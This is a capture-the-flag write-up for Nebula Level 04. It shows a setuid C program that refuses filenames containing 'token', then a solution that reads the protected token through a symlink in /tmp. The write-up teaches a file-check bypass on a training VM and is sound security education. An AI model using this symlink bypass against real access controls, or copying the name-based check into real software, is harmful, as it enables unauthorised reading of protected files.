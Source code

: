 # Nebula - Level 04

### About ###

>This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)
>
>To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

### Source code ###

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

### Solution ###

The file `token` can not be opened directly. Creating a symbolic link to `token` will bypass the verification on the name of the file given in argument to `./flag04`.

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/file
level04@nebula:/home/flag04$ ./flag04 /tmp/file
06508b5e-8909-4f38-b630-fdb148a848a2
```